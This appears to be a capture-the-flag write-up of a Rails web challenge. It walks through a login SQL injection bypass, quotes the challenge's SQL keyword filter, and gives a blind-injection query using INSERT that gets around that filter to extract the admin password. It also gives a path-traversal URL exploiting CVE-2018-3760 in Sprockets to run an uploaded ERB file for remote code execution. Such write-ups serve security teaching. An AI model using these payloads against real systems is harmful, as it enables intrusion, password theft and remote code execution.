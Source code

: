 This challenge was a ruby on rails application.  
The index route redirects to a login page, which is vulnerable to sql injection  
After people bypass auth with simple payloads like `' or 1=1 #` you will know that the goal is to retreive admin password using sqli and login into /admin.  
The filter was :  
```RUBY
hack =  /union|benchmark|strcmp|locate|STRCMP|position|file|concat|sleep|md5|mid|sub|count|and|left|load|space|instr|pad|conv|right|ascii|cast|reverse|locate|glob|having|like|match|char|regexp|limit|order|group|hex|information/i
```
So there is no substr functions no unions etc ...  
A possible solution(there are others) is to use insert function basically you can do :  
SELECT ('a')=(insert((SELECT password from users where isadmin=1), 2, 255, ''));  
And do blind injection to retreive password, more details about this technique are [here](https://gist.github.com/stypr/43fce10db9fa44b5f072442245d9e82e)  
After finding the admin password and login into /admin, we will be redirected to /upload where you can upload any file you want, the only thing that is returned is the PATH of that file.  
Gemfile shows the version of Sprockets that was used, which was vulnerable to CVE-2018-3760  
Basically you need to upload an erb file containing your payload and abuse the CVE to get RCE :  
The payload for rce looks like : http://185.168.131.128:8080/assets/file:%2f%2f/home/web03/app/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252E%252E/%252E%252E/home/web03/app/uploads/resumes/someHash/file.erb%3Ftype=text/plain  
For more details about the CVE , check Orange Tsai talk at BHUSA 2018.  
Note: The application was on production mode but flag assets.compile was on.
